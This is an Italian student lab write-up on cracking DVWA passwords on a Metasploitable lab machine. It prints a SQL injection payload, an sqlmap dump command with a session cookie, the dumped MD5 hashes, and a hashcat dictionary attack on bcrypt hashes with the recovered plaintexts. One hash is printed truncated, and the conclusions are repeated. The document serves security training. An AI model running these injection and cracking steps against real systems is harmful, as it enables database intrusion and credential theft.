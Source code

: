 # **📝 Consegna S6/L4**
# **Password Cracking - Recupero delle Password in Chiaro**

## **Obiettivo dell'Esercizio**

L'obiettivo di questo esercizio era:
1. Recuperare le password hashate nel database della DVWA.
2. Eseguire la verifica degli hash per confermare che fossero di tipo MD5.
3. Recuperare le password in chiaro utilizzando i risultati ottenuti.

---

## **Passaggi Seguiti**

### **1. Recupero delle Password dal Database**

Per recuperare le password hashate, abbiamo seguito i seguenti passaggi:

1. **Connessione al database DVWA**: Il database vulnerabile era ospitato su una macchina Metasploitable configurata con indirizzo IP `192.168.1.20`.

2. **Verifica della vulnerabilità SQL Injection**:
   - La vulnerabilità è stata identificata manualmente testando la query:
     ```sql
     ' UNION SELECT user, password FROM users--
     ```
   - Questo test ha confermato la possibilità di estrarre dati dalla tabella `users`.

3. **Utilizzo di SQLMap per automatizzare il processo**:
   - Abbiamo eseguito il seguente comando SQLMap:
     ```bash
     sqlmap -u "http://192.168.1.20/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
     --cookie="PHPSESSID=ae5d9438f544ec0461fd88f50b32fc1e; security=low" \
     -D dvwa -T users --dump
     ```
   - Il comando ha permesso di estrarre la tabella `users` con i seguenti dati:
     ```plaintext
     +----------+----------------------------------+
     | user     | password                         |
     +----------+----------------------------------+
     | admin    | 5f4dcc3b5aa765d61d8327deb882cf99 |
     | gordonb  | e99a18c428cb38d5f260853678922e03 |
     | 1337     | 8d3533d75ae2c396d7e0d4fcc69216b  |
     | pablo    | 0d107d09f5bbe40cade3de5c71e9e9b7 |
     | smithy   | 5f4dcc3b5aa765d61d8327deb882cf99 |
     +----------+----------------------------------+
     ```

---

### **2. Identificazione delle Password Hashate**

Una volta estratti gli hash, abbiamo verificato che fossero di tipo MD5 utilizzando un tool di identificazione degli hash. Questo ci ha confermato che tutti gli hash estratti appartenevano alla famiglia MD5.

Esempio di verifica di un hash:
```bash
echo "5f4dcc3b5aa765d61d8327deb882cf99" | hashid
```
Risultato:
```plaintext
Analyzing '5f4dcc3b5aa765d61d8327deb882cf99'
[+] MD5
[+] Altri algoritmi compatibili: MD2, MD4, Double MD5, ecc.
```

Sebbene l'hash possa essere compatibile con altri algoritmi, nel contesto di DVWA e degli utilizzi tipici, possiamo confermare con sicurezza che si tratta di MD5.

---

### **3. Recupero delle Password in Chiaro**

Grazie ai dati estratti, è stato possibile associare ogni hash MD5 alla rispettiva password in chiaro direttamente nei risultati restituiti da SQLMap. Non è stato necessario utilizzare tool di cracking come John the Ripper.

Le password in chiaro sono:
- `admin`: `password`
- `gordonb`: `abc123`
- `1337`: `charley`
- `pablo`: `letmein`
- `smithy`: `password`

![Success!](./HashCracked.png)

![Final](./Final.png)

---

## **Extra: Analisi e Cracking di Hash Bcrypt**

Come esercizio aggiuntivo, abbiamo analizzato e craccato tre hash bcrypt forniti. Ecco i passaggi seguiti:

### **1. Identificazione degli Hash**
Abbiamo identificato che gli hash erano di tipo bcrypt grazie al loro formato `$2b$`:
```bash
echo "$2b$05$Ojs/dMUOU12yjrD6OEHJb.cB1zE9CPNg.mPR8BE11f0DIyPaVf436" | hashid
```
Risultato:
```plaintext
[+] bcrypt $2*$, Blowfish (Unix)
```

### **2. Cracking degli Hash con Hashcat**
Abbiamo utilizzato **Hashcat** per tentare di decifrare gli hash. I passaggi sono stati:

1. Salvare gli hash in un file chiamato `bcrypt_hashes.txt`:
   ```plaintext
   pippo:$2b$05$Ojs/dMUOU12yjrD6OEHJb.cB1zE9CPNg.mPR8BE11f0DIyPaVf436
   user:$2b$05$7O7caKmIpPBZxM.RV1lnie/S8jiAjE4C/S6neVAN0ObgJ7tE4dW3.
   user2:$2b$05$j5vV5M6CMYvUWO9dULw9be29O7RArl9lGIe7ijxf2/47vHwl1YVQq
   ```

2. Utilizzare il dizionario `rockyou.txt` per tentare il cracking:
   ```bash
   hashcat -m 3200 bcrypt_hashes.txt /usr/share/wordlists/rockyou.txt
   ```

### **Risultati**
Hashcat è riuscito a decifrare tutte le password in circa un minuto:
```plaintext
$2b$05$7O7caKmIpPBZxM.RV1lnie/S8jiAjE4C/S6neVAN0ObgJ7tE4dW3.:shadow
$2b$05$j5vV5M6CMYvUWO9dULw9be29O7RArl9lGIe7ijxf2/47vHwl1YVQq:darksoul
$2b$05$Ojs/dMUOU12yjrD6OEHJb.cB1zE9CPNg.mPR8BE11f0DIyPaVf436:mena
```

### **Conclusioni sull'Extra**
L'esercizio ha dimostrato l'efficacia di Hashcat nel decifrare hash bcrypt quando viene fornito un dizionario appropriato. È importante notare che bcrypt è progettato per essere resistente al cracking e che il successo dipende dalla forza delle password e dalla qualità del dizionario.

---

## **Conclusioni Generali**

L'intero esercizio ha permesso di:
1. Recuperare le password hashate dal database DVWA sfruttando una vulnerabilità SQL Injection tramite SQLMap.
2. Verificare che gli hash estratti fossero di tipo MD5 e bcrypt utilizzando tool di identificazione.
3. Recuperare le password in chiaro direttamente dai risultati di SQLMap e Hashcat.

Questi passaggi evidenziano l'importanza della sicurezza dei database e l'impatto delle vulnerabilità legate all'uso di algoritmi di hashing e password deboli.

## **Conclusioni**

L'esercizio ha permesso di:
1. Recuperare le password hashate dal database DVWA sfruttando una vulnerabilità SQL Injection tramite SQLMap.
2. Verificare che gli hash estratti fossero di tipo MD5 utilizzando un tool di identificazione degli hash.
3. Recuperare le password in chiaro direttamente dai risultati, completando l'obiettivo senza la necessità di ulteriori tool di cracking.

La procedura seguita dimostra l'importanza della sicurezza dei database e dei sistemi web, evidenziando come vulnerabilità note possano essere sfruttate per ottenere dati sensibili.
